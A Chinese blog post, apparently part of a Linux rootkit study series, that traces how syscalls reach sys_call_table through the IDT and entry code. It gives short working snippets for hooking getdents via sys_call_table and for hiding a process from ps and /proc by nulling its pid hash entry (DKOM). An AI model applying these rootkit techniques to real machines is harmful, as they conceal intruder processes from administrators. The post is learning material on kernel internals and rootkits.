反汇编一下`system_call`大致看一下情况(我反汇编的是32位的老内核，所以仅供参考，内核代码都不同)
```
disassemble /m system_call
```
有如下结果出现
```
528 syscall_call:
529 call *sys_call_table(,%eax,4)
   0xc1002a5e <+62>: call DWORD PTR [eax*4-0x3ebaaee8]
```
再单行查看内存
```
gef➤ x 0xc1002a5e
0xc1002a5e <system_call+62>: 0x89c14551188514ff
```
这儿的指令实际上是`call DWORD PTR`，也就是`\xff\x14\x85`，源码内容可以在`/arch/x86/kernel/entry_64.S`下看到(这个找的`v3.15`版本的)
> 先前的研究说`call`是`0xe8`5字节，然后并不够严谨，因此在这踩了坑，这部分资料参考资料里有

```
system_call_fastpath:
#if __SYSCALL_MASK == ~0
 cmpq $__NR_syscall_max,%rax
#else
 andl $__SYSCALL_MASK,%eax
 cmpl $__NR_syscall_max,%eax
#endif
 ja badsys
 movq %r10,%rcx
 call *sys_call_table(,%rax,8) # XXX: rip relative
 movq %rax,RAX-ARGOFFSET(%rsp)
```
但是！这个文件从`v4.2-rc1`以后就没有了，这就使得我根本找不到这个函数。逼得我不得不去找代码，但是找来找去，直接在汇编中引用了`sys_call_table`的只有`/arch/x86/entry/entry_64.S`中的`entry_SYSCALL_64`
> 这实际是另一种系统调用的实现，后文提及

```
ENTRY(entry_SYSCALL_64)
......
entry_SYSCALL_64_fastpath:
	/*
	 * Easy case: enable interrupts and issue the syscall.  If the syscall
	 * needs pt_regs, we'll call a stub that disables interrupts again
	 * and jumps to the slow path.
	 */
	TRACE_IRQS_ON
	ENABLE_INTERRUPTS(CLBR_NONE)
#if __SYSCALL_MASK == ~0
	cmpq	$__NR_syscall_max, %rax
#else
	andl	$__SYSCALL_MASK, %eax
	cmpl	$__NR_syscall_max, %eax
#endif
	ja	1f				/* return -ENOSYS (already in pt_regs->ax) */
	movq	%r10, %rcx

	/*
	 * This call instruction is handled specially in stub_ptregs_64.
	 * It might end up jumping to the slow path.  If it jumps, RAX
	 * and all argument registers are clobbered.
	 */
#ifdef CONFIG_RETPOLINE
	movq	sys_call_table(, %rax, 8), %rax
	call	__x86_indirect_thunk_rax
#else
	call	*sys_call_table(, %rax, 8)
#endif
```
浏览一遍后发现还不是直接`call`的，这儿出现了一个判断，就是如果没有`CONFIG_RETPOLINE`那自然是直接进入到`call *sys_call_table(, %rax, 8)`然后调用对应的例程，但是如果有呢则先加载数据到`mmx寄存器`让然后调用`__x86_indirect_thunk_rax`。
这儿的`CONFIG_RETPOLINE`是一个叫做`retpoline`的解决方案是为了应对`intel CPU`的`Spectre`问题。
```
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v2
Mitigation: Full generic retpoline, IBPB, IBRS_FW
```
> 查找`Full generic retpoline`，查看自己的系统有没有这个配置

我的内核版本是有的，说明系统调用是不会直接进入到`call *sys_call_table(, %rax, 8)`中的，编译内核后`gdb`反编译下看看内存状态。
```
gef➤ disassemble /m entry_SYSCALL_64
......
   0xffffffff81a00060 <+80>: ja 0xffffffff81a00077 <entry_SYSCALL_64+103>
   0xffffffff81a00062 <+82>: mov rcx,r10
   0xffffffff81a00065 <+85>: mov rax,QWORD PTR [rax*8-0x7e1ffee0]
   0xffffffff81a0006d <+93>: call 0xffffffff81c03000 <__x86_indirect_thunk_rax>
   0xffffffff81a00072 <+98>: mov QWORD PTR [rsp+0x50],rax
   0xffffffff81a00077 <+103>: cli    
   0xffffffff81a00078 <+104>: mov r11,QWORD PTR gs:0x14d00
   0xffffffff81a00081 <+113>: test DWORD PTR [r11],0x900838df
```
`call`了`__x86_indirect_thunk_rax`，后面的`call *sys_call_table(, %rax, 8)`没有了，而前面有个`movq sys_call_table(, %rax, 8), %rax`还是能拿到`sys_call_table`的地址的。
用`objdump`反汇编一下看一下具体的情况
```
......
sudo objdump -d vmlinux --start-address=0xffffffff81a00010 --stop-address=0xffffffff81a001c7
ffffffff81a00059 <entry_SYSCALL_64_fastpath>:
ffffffff81a00059: fb sti    
ffffffff81a0005a: 48 3d 4c 01 00 00 cmp $0x14c,%rax
ffffffff81a00060: 77 15 ja ffffffff81a00077 <entry_SYSCALL_64_fastpath+0x1e>
ffffffff81a00062: 4c 89 d1 mov %r10,%rcx
ffffffff81a00065: 48 8b 04 c5 20 01 e0 mov -0x7e1ffee0(,%rax,8),%rax
ffffffff81a0006c: 81 
ffffffff81a0006d: e8 8e 2f 20 00 callq ffffffff81c03000 <__x86_indirect_thunk_rax>
ffffffff81a00072: 48 89 44 24 50 mov %rax,0x50(%rsp)
ffffffff81a00077: fa cli    
ffffffff81a00078: 65 4c 8b 1c 25 00 4d mov %gs:0x14d00,%r11
ffffffff81a0007f: 01 00 
ffffffff81a00081: 41 f7 03 df 38 08 90 testl $0x900838df,(%r11)
ffffffff81a00088: 75 19 jne ffffffff81a000a3 <entry_SYSCALL_64_fastpath+0x4a>
ffffffff81a0008a: 48 8b 8c 24 80 00 00 mov 0x80(%rsp),%rcx
ffffffff81a00091: 00 
ffffffff81a00092: 4c 8b 9c 24 90 00 00 mov 0x90(%rsp),%r11
ffffffff81a00099: 00 
ffffffff81a0009a: 48 83 c4 30 add $0x30,%rsp
ffffffff81a0009e: e9 bc 00 00 00 jmpq ffffffff81a0015f <syscall_return_via_sysret+0xa>
ffffffff81a000a3: fb sti    
ffffffff81a000a4: 4c 89 3c 24 mov %r15,(%rsp)
ffffffff81a000a8: 4c 89 74 24 08 mov %r14,0x8(%rsp)
ffffffff81a000ad: 4c 89 6c 24 10 mov %r13,0x10(%rsp)
ffffffff81a000b2: 4c 89 64 24 18 mov %r12,0x18(%rsp)
ffffffff81a000b7: 48 89 6c 24 20 mov %rbp,0x20(%rsp)
ffffffff81a000bc: 48 89 5c 24 28 mov %rbx,0x28(%rsp)
ffffffff81a000c1: 48 89 e7 mov %rsp,%rdi
ffffffff81a000c4: e8 77 19 60 ff callq ffffffff81001a40 <syscall_return_slowpath>
ffffffff81a000c9: eb 25 jmp ffffffff81a000f0 <return_from_SYSCALL_64>
```
`0xffffffff81a00065`这个地址去`gdb`查内存
```
gef➤ x/2 0xffffffff81a00065
0xffffffff81a00065 <entry_SYSCALL_64+85>: 0xc5048b48 0x81e00120
```
补全的话实际`0xffffffff81e00120`就是`sys_call_table`的地址。那么是不是可以针对`entry_SYSCALL_64`进行汇编码的暴力搜索，从而找出地址来，和以前的方法一样，只不过换了判断而已。
> 此时完全没有想到我的思路已经走远了！！因为此时的我还不知道三种系统调用

去看`idt_table`的获取。
> 通过`idtr.base`获取，在`保护模式`下，这叫做`中断描述符表`，而在`实模式`下称为`中断向量表`，这是因为在`实模式`下`idtr.base`指向的表格项目直接给出`中断服务例程`的入口地址，而在`保护模式`下给的是`门描述符`，从`门描述符`间接才能取到`服务例程`入口地址。`实模式`很短，当`CPU复位(reset)`或者是`加电(power on)`时是`实模式`。

直接通过`sidt`保存`idtr寄存器`的信息，其结构体也非常简单：
```
static struct _idtr
{
        unsigned short limit;   //32位是0xff，64位是0xfff
        unsigned long base;
}__attribute__ ((packed));
```
> 我最后才发现这儿`limit`在64位下的大小问题，太大意了。


* 代码获取的`idt_table`地址：`0xfffffe0000000000`
* 通过`内核符号表`获取到的`idt_table`地址：`0xffffffff8a4e4000`

取`idt_table`地址出现了上述的情况，后来查阅了资料和代码发现是正常机制。
```
void __init trap_init(void)
{
 /* Init cpu_entry_area before IST entries are set up */
 setup_cpu_entry_areas();

 idt_setup_traps();

 /*
  * Set the IDT descriptor to a fixed read-only location, so that the
  * "sidt" instruction will not leak the location of the kernel, and
  * to defend the IDT against arbitrary memory write vulnerabilities.
  * It will be reloaded in cpu_init() */
 cea_set_pte(CPU_ENTRY_AREA_RO_IDT_VADDR, __pa_symbol(idt_table),
      PAGE_KERNEL_RO);
 idt_descr.address = CPU_ENTRY_AREA_RO_IDT;

 /*
  * Should be a barrier for any external CPU state:
  */
 cpu_init();

 idt_setup_ist_traps();

 x86_init.irqs.trap_init();

 idt_setup_debugidt_traps();
}
```
这儿的代码注释就说的很明显了，最后重载的地址是`CPU_ENTRY_AREA_RO_IDT`也是`只读线性地址`，而这个地址是`idt_table`映射来的最后通过`cpu_init()`重载。
去跟`idt_table`的结构体会发现是`gate_struct`，不再是资料上的`idt`了。
> 提取基地址中的`low`+`middle`+`high`共同组成了一个`divide_error`，也就是0号地址。

```
struct _gate_struct {
 u16 offset_low;
 u16 segment;
 struct idt_bits bits;
 u16 offset_middle;
#ifdef CONFIG_X86_64
 u32 offset_high;
 u32 reserved;
#endif
} __attribute__((packed));
```
再向后看一个函数，就很有意思了，也就是针对`gate_desc`的处理
> typedef struct gate_struct gate_desc;

```
static inline unsigned long gate_offset(const gate_desc *g)
{
#ifdef CONFIG_X86_64
 return g->offset_low | ((unsigned long)g->offset_middle << 16) |
  ((unsigned long) g->offset_high << 32);
#else
 return g->offset_low | ((unsigned long)g->offset_middle << 16);
#endif
}
```
上述代码的意思就是说一个`中断例程函数`比如`系统调用`的地址是通过`g->offset_low | ((unsigned long)g->offset_middle << 16) | ((unsigned long) g->offset_high << 32)`计算出来的。
`系统调用例程`的`中断号`是`128`也就是`0x80`，这样就可以通过`idtr.base`也就是`idt_table`基地址来获取到我们需要的那一个`门描述符`地址，即`idt_table+16*0x80`
> 在`x86_64`中一个`idt`是`16`字节，因此这儿特别注意，不能照抄`8*0x80`!!!!这儿我一开始照抄完全定位不到想要的函数，排查了很久。推荐文章[中断和异常](https://www.binss.me/blog/interrupt-and-exception/)

然而获取的地址却和我想的不同，通过计算获得的地址对应的`内核符号`是`entry_INT80_compat`而非`entry_SYSCALL_64`，源码在`/arch/x86/entry/entry_64_compat.S`。其中`call`了一个函数如下：
```
/* Handles int $0x80 */
__visible void do_int80_syscall_32(struct pt_regs *regs)
{
 enter_from_user_mode();
 local_irq_enable();
 do_syscall_32_irqs_on(regs);
}
```
看注释就应该知道这个函数是`int 0x80`的函数。看名字的话`enter_from_user_mode`是将进程陷入`内核态`，`IRQ`是`中断请求(Interrupt Request)`，那`local_irq_enable()`就应该是针对`请求`的`放行`之类的处理，最后就看`do_syscall_32_irqs_on`，到这就完全卡住了，因为逻辑不对啊，怎么是`32`位的方式？
> [Linux系统调用过程分析](https://www.binss.me/blog/the-analysis-of-linux-system-call/)这篇文章，讲的特别好而且清楚，而且其中的历史解开了我很多在看源码时产生的疑惑，比如多种系统调用的方式。

查阅了资料知道了三种`系统调用`，`64`位的系统下系统调用方式都被统一成`syscall`了而不是传统的`int 0x80`，不然在`do_syscall_32_irqs_on`就通过`32位的系统调用表`把流程走完了，也就是` regs->ax = ia32_sys_call_table[nr]`，这样是拿不到`64`位的表的。
> 这点有历史原因，参照上面的文章，大概就是在某个时期`Intel`和`AMD`分开创建了新的`系统调用指令`分别是`sysenter`和`syscall`，解决了`软中断`进行`系统调用`太慢的问题，然而在`64`位上`intel`却发现`x86`架构的程序不能用了，只能也跟着用起了`syscall`

而通过`idt`获取到的`entry_INT80_compat`官方给出的解释是：
```
entry_INT80_compat: int 0x80 from 32-bit or 64-bit code; compat syscall either way.
```
同样在`entry_32.S`中也能找到注解
```
64-bit programs can use INT $0x80 as well, but they can only run on 64-bit kernels and therefore land in entry_INT80_compat.
```
再往后看到`entry_64.S`的注解
```
This entry point can be used by 32-bit and 64-bit programs to perform 32-bit system calls.
```
意思就是这还是一种`int 0x80`的`系统调用`方式，只不过是兼容模式。而先前我以为会调用的`entry_SYSCALL_64`实际上是`64`位下`syscall`的程序逻辑。
但是我`printk`了一下内存的信息：
```
[10969.058294] [address]idt_table=0xfffffe0000000000
[10969.058295] [address]entry_INT80_compat=0xffffffff8f801c00
[10969.058296] [memory]e8 b2 1f 60 ff
[10969.058297] [address]do_int80_syscall_32=0xffffffff8ee03c00
[10969.058298] [memory]e8 92 f3 bf 0
[10969.058298] [address]call=0xffffffff8fa03000
```
确实是依次发现了`idt_table`->`entry_INT80_compat`->`do_int80_syscall_32`，然后再次打印内存中的`[address]call`地址时却发现调用的不是本该以为的函数，而是`__x86_indirect_thunk_rax`。
重开流程：
`0x80`在哪定义的？
```
/arch/x86/include/asm/irq_vectors.h
#define IA32_SYSCALL_VECTOR 0x80
```
谁来用这个`0x80`？
```
#if defined(CONFIG_IA32_EMULATION)
 SYSG(IA32_SYSCALL_VECTOR, entry_INT80_compat),
#elif defined(CONFIG_X86_32)
 SYSG(IA32_SYSCALL_VECTOR, entry_INT80_32),
#endif
```
> `SYSG`是用来设置`系统中断门`的函数

我的内核开启了`CONFIG_IA32_EMULATION`，所以`0x80`的`系统中断门`是`entry_INT80_compat`，至此是从`idt`到指定`系统中断门`的真正过程。
> 意思就是说，在`64`位的系统上本该走`syscall`的道路，但是为了研究`idt`结果就强行走上了歪路。

`stackoverFlow`上有个关于这个的问题：
> [What happens if you use the 32-bit int 0x80 Linux ABI in 64-bit code?](https://stackoverflow.com/questions/46087730/what-happens-if-you-use-the-32-bit-int-0x80-linux-abi-in-64-bit-code)

实际上`entry_64_compat.S`什么时候会用到呢？先重新看一下`entry_64_compat.S`的注解：
```
It is also used by the vDSO's __kernel_vsyscall fallback for hardware that doesn't support a faster entry method.
```
并且同文件下实现的`entry_SYSCALL_compat`和`entry_SYSENTER_compat`也都提到了这个，并且都是`through the vDSO's __kernel_vsyscall enter here`。
> `__kernel_vsyscall`是一个能够选取最快系统调用方式的机制。`syscall`和`sysenter`的引入是因为`cpu`的变化，那么就必然会出现有的机器并不会支持，但是`int 0x80`又太慢了，那就换一个方式，`glibc`不再直接接触到具体的系统调用的地址，而是从一个`约定的地址`调用，至于这个地址到底是什么`系统调用方式`，就让另外逻辑根据`机器`的情况来选择，而这个约定的地址就是`vsyscall`的地址。
```
__kernel_vsyscall:
 CFI_STARTPROC
 pushl %ecx
 CFI_ADJUST_CFA_OFFSET 4
 CFI_REL_OFFSET ecx, 0
 pushl %edx
 CFI_ADJUST_CFA_OFFSET 4
 CFI_REL_OFFSET edx, 0
 pushl %ebp
 CFI_ADJUST_CFA_OFFSET 4
 CFI_REL_OFFSET ebp, 0

 #define SYSENTER_SEQUENCE "movl %esp, %ebp; sysenter"
 #define SYSCALL_SEQUENCE "movl %ecx, %ebp; syscall"

#ifdef CONFIG_X86_64
 /* If SYSENTER (Intel) or SYSCALL32 (AMD) is available, use it. */
 ALTERNATIVE_2 "", SYSENTER_SEQUENCE, X86_FEATURE_SYSENTER32, \
                   SYSCALL_SEQUENCE, X86_FEATURE_SYSCALL32
#else
 ALTERNATIVE "", SYSENTER_SEQUENCE, X86_FEATURE_SEP
#endif

 /* Enter using int $0x80 */
 int $0x80
```
就是说，`idt`已经拿不到`64`位所需要的`sys_call_table`了。
> 不知道是不是真的是这样

还是直接通过`System.map`或者是`kallsyms`搞吧，直接拿到`sys_call_table`地址。
```
sys_call_table = kallsyms_lookup_name("sys_call_table");
old_sys_getdents = sys_call_table[__NR_getdents];
sys_call_table[__NR_getdents] = new_sys_getdents;
```
`sys_getdents`这个函数的实现在`/fs/readdir.c`中，现在`sys_xxx`只有函数声明了，真实的调用都改成了`SYSCALL_DEFINE`来实现，据说这是为了解决一个`CVE-2009-2009`的漏洞。
> 具体的代码替换实在不想弄了，因为看了半天感觉又涉及到了`VFS`那一块的东西，不想再跟一次了，有兴趣的参照[process-hiding/Method2/hook.c](https://github.com/hschen0712/process-hiding/blob/master/Method2/hook.c)

### DKOM脱链
> 本该是LKM系列的最后一个`hook`方式了，也是最为难查的一种`hook`

先前`VFS`就曾经提到过，在linux的内核里`进程`是放在链表里的。
> 当前系统中的所有进程在进程终止前都会存在于各种链表中，但是只有当进程处于就绪态时会被调度器调度执行，否则永远无法被调度；当进程终止时从链表中清除，从而结束其生命过程

当时只是提了这句话，回想一下先前`VFS进程隐藏`的实现，是通过查询到`进程名`后不去填充`结构体`生成目录，那么这儿是查询什么获取到`进程名`的？是从`task_struct`中提取到的，这是一个`进程结构体`，然而这些`进程结构体`在linux的内核中是存放在一个叫做`tasklist`的双向链表中，大概是这个样子的：
这是一个`双向循环链表`


其中`next`和`prev`组成了一个连接对，而这在一个进程中的具体表现是`list_head`，每一个`task_struct`都包含了这个结构体：
```
struct list_head {
 struct list_head *next, *prev;
};
```
在`结构体`刚创建还未插入`链表`时，`next`和`prev`都是初始化指向自身的，链表并不关心数据层的类型，只关心`next`和`prev`指向谁。这样的不同的双向循环链表结构会提供给内核中的各个相关机制使用。那`DKOM隐藏`的原理就是把指定的`task_struct`从这个链表中提取出来。
> `断链重连`？

整个攻击的顺序就应该是:
1. 获取到链表
2. 遍历链表找到指定的`task_struct`
3. 记录指定`task_struct`的`list_head`
4. 修改指定`task_struct`前后的`list_head`，将其连接起来。

> 但是这儿有个问题就是不能破坏掉`cpu`调度的那一条链表，否则被隐藏的`进程`就失去了被调度的能力，彻底`消失`。

对于一个链表来说存在遍历函数`list_for_each_entry`还有`list_entry`，如果在遍历过程中直接使用`list_del`宏的话，就会出问题，因为`list_del`的效果是把`next`和`prev`设置成`LIST_POISON1`和`LIST_POISON2`，这会导致遍历的指针移动被中断，然后内核就`patch`了，这样就需要自己缓存`next`指针让遍历操作连贯起来。
```
 current_head=&(current->thread_group);
 list_for_each_entry(current_task,current_head,thread_group){
  if(strcmp("bash",current_task->comm)==0){
   hide_task = current_task;
   hide_head= current_head;
  }
 }
 prev_task= list_entry(hide_head->prev,typeof(*hide_task),thread_group);
 next_task= list_entry(hide_head->next,typeof(*hide_task),thread_group);
 prev_task->thread_group.next = &(next_task->thread_group);
 next_task->thread_group.prev = &(prev_task->thread_group);
 list_del_init(hide_head);
```
再次查询`双向链表`时候发现确实已经脱链了，然而还是能`ps`到指定的`进程`，而且后面还各种内核崩溃，只能重新去研究看看`proc_pid_readdir`的实现，看下别人是怎么找到的`进程`
```
proc_pid_readdir -> next_tgid -> pid_task -> hlist_entry
```
这儿就不得不再引入一种新的链表结构叫做`进程哈希链表`。



表头节点结构体:
```
struct hlist_head {
 struct hlist_node *first;
};
```
链表节点结构体:
```
struct hlist_node {
 struct hlist_node *next, **pprev;
};
```
其中表头的`first`指向第一个节点，节点的`next`指向下一个节点的`next`，直到结尾指向`NULL`，节点的`prev`指向前一个节点的`next`，这是为了方便`头节点`和第一个`链表节点`作连接。
利用`DKOM脱链`就需要先知道对应的`进程`在链中的位置，也就是知道`hlist_head`信息，而在用户态下能够拿到的东西也只有`进程ID`而已，那就要先进行这样的一个流程：
```
pid => struct pid => task_struct
..........下
hiden_struct = pid_task(find_vpid(pid), PIDTYPE_PID);
```
> 这儿需要注意的是`pid`的类型为`pid_t`这代表是一个`virtual id`

针对一个`task_struct`来说
```
struct hlist_node *n =>  task_struct->pids[PIDTYPE_MAX]->node
struct hlist_head *h => task_struct->pids[PIDTYPE_MAX]->pid->task[PIDTYPE_MAX]
```
重新看一下`pid_task`，可以发现这样一个判断：
```
        if (first)
            result = hlist_entry(first, struct task_struct, pids[(type)].node);
```
先看一下`hlist_entry`的实现，来源于`container_of`：
```
#define hlist_entry(ptr, type, member) container_of(ptr,type,member)
```
这个函数会根据一个结构体变量中的域成员变量的指针来获取指向整个结构体变量的指针。
* 一个例子：

```
struct demo_struct { 
           type1 member1; 
           type2 member2; 
           type3 member3; 
           type4 member4; 
};      
struct demo_struct demo;
type3 *memp = get_member_pointer_from_demo(); //这是demo中的member3的成员指针
struct demo_struct *demop = container_of(memp, struct demo_struct, member3); //获得原结构体的指针
```
这个函数是根据`first`来取得`task_struct`的，那接着看`first`怎么获取的：
```
        struct hlist_node *first;
        first = rcu_dereference_check(hlist_first_rcu(&pid->tasks[type]),
                          lockdep_tasklist_lock_is_held());
```
> 到此引入了新的知识点：`linux的RCU机制`

`first`是通过`&pid->tasks[type]`找到的，然而这还是在一个判断中，那就再看这个判断：
```
struct task_struct *result = NULL;
 if (pid) {
```
再看`pid_task`的函数入口，再想一想先前如何根据一个`pid`获取到一个`task_struct`，这儿的`type`自然是`PIDTYPE_PID`
```
struct task_struct *pid_task(struct pid *pid, enum pid_type type)
```
这就是说此函数实际上是在遍历`tasks[PIDTYPE_PID]`这个哈希表从而获取到对应的进程。那先尝试一下直接把`pid=null`试试会怎样呢？
> 内核崩了～猜测大概是因为断链了吧～

重新想一想到底要研究的是什么？
* 只有一个`pid_t`，在链表中定位到它，并将其隐藏

回顾先前的一个函数`find_vpid`，这个函数怎么通过`pid_t`找到一个`pid`的？
```
struct pid *find_vpid(int nr)
{
 return find_pid_ns(nr, task_active_pid_ns(current));
}
EXPORT_SYMBOL_GPL(find_vpid);
```
这个函数是通过`find_pid_ns`来实现的，传入参数是`nr`和`ns`，其中`nr`也就是`pid_t`，返回的就是一个`pid`，若不存在就返回`pid=null`。
```
struct pid *find_pid_ns(int nr, struct pid_namespace *ns)
{
 return idr_find(&ns->idr, nr);
}
EXPORT_SYMBOL_GPL(find_pid_ns);
```
> 然而跟进到函数当中去后，又发现了大概涉及到了`IDR`机制。。。。

其中`task_active_pid_ns`这一个函数的实现组合代码贴出来看一下，首先明白一下`current`指的是当前的`task_struct`。
```
struct pid_namespace *task_active_pid_ns(struct task_struct *tsk)
{
 return ns_of_pid(task_pid(tsk));
}
EXPORT_SYMBOL_GPL(task_active_pid_ns);

static inline struct pid *task_pid(struct task_struct *task)
{
 return task->pids[PIDTYPE_PID].pid;
}

/*
 * ns_of_pid() returns the pid namespace in which the specified pid was
 * allocated.
 *
 * NOTE:
 * ns_of_pid() is expected to be called for a process (task) that has
 * an attached 'struct pid' (see attach_pid(), detach_pid()) i.e @pid
 * is expected to be non-NULL. If @pid is NULL, caller should handle
 * the resulting NULL pid-ns.
 */
static inline struct pid_namespace *ns_of_pid(struct pid *pid)
{
 struct pid_namespace *ns = NULL;
 if (pid)
  ns = pid->numbers[pid->level].ns;
 return ns;
}
```
这儿就必须要去看一下`PID`的框架设计了。
> 借用参考图


```
pid_hash[]: 这是一个hash表的结构，根据 pid 的 nr 值哈希到其某个表项，若有多个 pid 结构对应到同一个表项，这里解决冲突使用的是散列表法。这样，就能解决根据PID值怎样快速地找到task_struct结构体的问题了：
首先通过 PID 计算 pid 挂接到哈希表 pid_hash[] 的表项
遍历该表项，找到 pid 结构体中 nr 值与 PID 值相同的那个 pid
再通过该 pid 结构体的 tasks 指针找到 node
最后根据内核的 container_of 机制就能找到 task_struct 结构体
```
> 但这是最简单的数据结构，是没有考虑到进程间关系的。

再借一张图：


具体的介绍在[Linux 内核进程管理之进程ID](https://www.cnblogs.com/hazir/p/linux_kernel_pid.html)说的很详细了，只不过其中的代码有些老了，那先前提出的种种零散的知识就可以连起来了：
1. `pid_task`的作用是根据`pid`来找到对应的`task_struct`，其运行核心是`container_of机制`，而能否返回有效的数据取决于传入的`pid`是否有效，而其中有一个`tasks[type]`哈希表的使用，能够根据一个`pid`实体找到头节点的`task_struct`实体。
2. `find_pid_ns`则是通过`pid_t`来找到所要的`pid`实体。如果对照下老版内核(v3.16)的代码，实际很容易就可以看出来，其中直接用到了`pid_hash`表：
```
struct pid *find_pid_ns(int nr, struct pid_namespace *ns)
{
 struct upid *pnr;

 hlist_for_each_entry_rcu(pnr,
   &pid_hash[pid_hashfn(nr, ns)], pid_chain)
  if (pnr->nr == nr && pnr->ns == ns)
   return container_of(pnr, struct pid,
     numbers[ns->level]);

 return NULL;
}
```

因为只是为了隐藏`ps`的进程，所以需要针对的是`proc`的查询方式，其中`pid`的来源和`find_vpid`差不多的实现，只不过用的是`find_ge_pid`，然而还是一样的`idr`机制，直接就可以pass了：
```
/*
 * Used by proc to find the first pid that is greater than or equal to nr.
 *
 * If there is a pid at nr this function is exactly the same as find_pid_ns.
 */
struct pid *find_ge_pid(int nr, struct pid_namespace *ns)
{
 return idr_get_next(&ns->idr, &nr);
}
```
那先前`proc_pid_readdir`的流程就可以换一下了：
```
proc_pid_readdir -> next_tgid ->  find_ge_pid -> pid_task -> hlist_entry
```
说白了如果只是对链表做操作，无法决定`struct pid`的获取，那就只能在后一步，劫持一下`first`了。
```
 pid_t pid = 2068;
 hiden_pid = find_vpid(pid);
 hiden_pid->tasks[PIDTYPE_PID].first=NULL;
```
没错，就这么三行代码！！就搞定了！！
我都不知道算不算DKOM脱链，但确实是从`ps`里消失了，而且`/proc`下也不会有这个目录。


> 关于`pid_hash`还有`pid_namespace`这些还要补坑，因为我自己还不是理的很顺。

## 硬件级
### Bios劫持
> 看了看大概的文章，需要插U盘什么的，而且有`EFI`的开发，放弃

# 还有很多很多技术！！！但是
> 吐槽一下自己吧。


# 总结
攻与防无非看谁更底层，看谁能修改谁的东西，而各种技术的实现上基本都是针对某个点的各种`hook`，[LINUX HOOK技术](http://www.voidcn.com/article/p-sfjritoa-bcx.html)是一个比较好的入门文章，各种技术都介绍的比较全面，后续将填一下`hook`技术的坑。

# 参考
* [通过内核模块实现隐藏信息的 Rootkit](https://blog.brickgao.com/2016/08/07/simple-rootkit/)
* [基于LKM系统调用劫持的恶意软件行为监控技术研究](http://netinfo-security.org/article/2016/1671-1122-0-4-1.html#close)
* [Linux下的RootKit简单介绍与分析](http://blog.51cto.com/staronmytop/1119475)
* [Linux内核模块与应用程序的区别](https://pengcc.iteye.com/blog/910449)
* [系统调用表](https://www.ibm.com/developerworks/cn/linux/kernel/syscall/part1/appendix.html)
* [linux--函数劫持--基于LD_PRELOAD](https://blog.csdn.net/u012301943/article/details/25830229)
* [linux dll劫持](https://www.cnblogs.com/codingMozart/p/4829367.html)
* [动态连接的诀窍：使用 LD_PRELOAD 去欺骗、注入特性和研究程序](https://www.linuxidc.com/Linux/2017-12/149841.htm)
* [linux下实现进程隐藏](https://github.com/hschen0712/process-hiding)
* [LD_PRELOAD的偷樑換柱之能](https://hk.saowen.com/a/660685647e44a4d6f7e5ee0bf56e2faa5191b2d562516bd2ea979a3de9ae064a)
* [Linux動態鏈接庫預加載型rootkit的檢測技術](https://hk.saowen.com/a/a1af7350165c37f0cbef19116c2f0ea257a9f55f94fe420cd54f2d1140f42034)
* [新坑预定：linux下的进程/文件隐藏](http://9bie.org/index.php/archives/354/)
* [Linux下DIR，dirent,stat等结构体详解](https://blog.csdn.net/zhuyi2654715/article/details/7605051)
* [劫持系统函数Demo](https://my.oschina.net/jxcdwangtao/blog/828645)
* [Linux 动态库剖析](https://www.ibm.com/developerworks/cn/linux/l-dynamic-libraries/index.html)
* [增加-进程隐藏功能的系统调用](https://www.cnblogs.com/coolalan/p/3978215.html)
* [Linux内核级Rootkit检测研究 - 计算机体系结构国家重点实验室](http://www.carch.ac.cn/uploadfile/2017/0824/20170824052844948.pdf)
* [[杂七杂八] rootkit技术](http://bbs.javaee.cc/post/250772_1_1.html)
* [从文件 I/O 看 Linux 的虚拟文件系统](https://www.ibm.com/developerworks/cn/linux/l-cn-vfs/index.html)
* [Linux下基于内存分析的Rootkit检测方法](http://drops.xmd5.com/static/drops/tips-4731.html)
* [proc文件系统_每进程信息形成原理、目录遍历方式、位图查找](http://www.voidcn.com/article/p-nzamfimp-wk.html)
* [Linux内核如何替换内核函数并调用原始函数](https://blog.csdn.net/dog250/article/details/84201114)
* [Linux进程描述符task_struct结构体详解--Linux进程的管理与调度（一](https://blog.csdn.net/gatieme/article/details/51383272)
* [linux 隐藏进程 - crux实现](https://blog.csdn.net/billpig/article/details/6038330)
* [Kernel debugging with Kprobes](https://www.ibm.com/developerworks/library/l-kprobes/index.html)
* [LINUX HOOK技术](http://www.voidcn.com/article/p-sfjritoa-bcx.html)
* [函数指针和指针函数](https://blog.csdn.net/wangkai_123456/article/details/22524875)
* [嵌入式C语言笔记03——函数指针，内存陷阱，堆栈](https://insswer.iteye.com/blog/1040408)
* [VFS文件系统](http://docs.linuxtone.org/ebooks/C&CPP/c/ch29s03.html)
* [Linux 2.6 劫持系统调用 隐藏进程](https://hyshucom.iteye.com/blog/1681448)
* [Rootkit Hacking Technology && Defence Strategy Research](https://www.cnblogs.com/LittleHann/p/3910696.html)
* [VFS中的基本结构](https://arkingc.github.io/2017/08/18/2017-08-18-linux-code-vfs/#VFS%E4%B8%AD%E7%9A%84%E5%9F%BA%E6%9C%AC%E7%BB%93%E6%9E%84)
* [linux虚拟文件系统vfs](https://www.cnblogs.com/embedded-linux/p/5663176.html)
* [Linux Kernel UAPI](http://tinylab.org/linux-kernel-uapi/)
* [Linux下的FILE结构体](https://blog.csdn.net/wenqiang1208/article/details/55809008)
* [Linux Kernel：系统调用挂钩示例](http://landcareweb.com/questions/5663/linux-kernel-xi-tong-diao-yong-gua-gou-shi-li)
* [Linux Rootkit系列一：LKM的基础编写及隐藏](https://www.freebuf.com/articles/system/54263.html)
* [linux 内核库函数](http://blog.chinaunix.net/uid-20321537-id-1966892.html)
* [Linux Rootkit 研究](https://docs-conquer-the-universe.readthedocs.io/zh_CN/latest/linux_rootkit.html)
* [LInux中实现进程隐藏的一种新方法](http://www.doc88.com/p-2072466235621.html)
* [获得内核函数地址的四种方法](https://www.cnblogs.com/sky-heaven/p/5192778.html)
* [获取Linux内核未导出符号的几种方式](https://www.cnblogs.com/bittorrent/p/3804141.html)
* [Linux 内核自防护项目 KSPP](https://linux.cn/article-7411-1.html)
* [如何增强Linux内核中的访问控制安全](https://zhuanlan.zhihu.com/p/51645782)
* [高级Linux Kernel Inline Hook技术分析与实现](http://blog.51cto.com/laokaddk/421860)
* [使用 Kprobes 调试内核](https://www.ibm.com/developerworks/cn/linux/l-kprobes.html)
* [Oops中的error code解釋](http://b8807053.pixnet.net/blog/post/340096445-%5B%E8%BD%89%5Doops%E4%B8%AD%E7%9A%84error-code%E8%A7%A3%E9%87%8B)
* [Linux内核通过inline hook实现隐藏进程](http://www.it610.com/article/4559233.htm)
* [Linux内核调试技术——kprobe使用与实现](https://blog.csdn.net/andy205214/article/details/77148573)
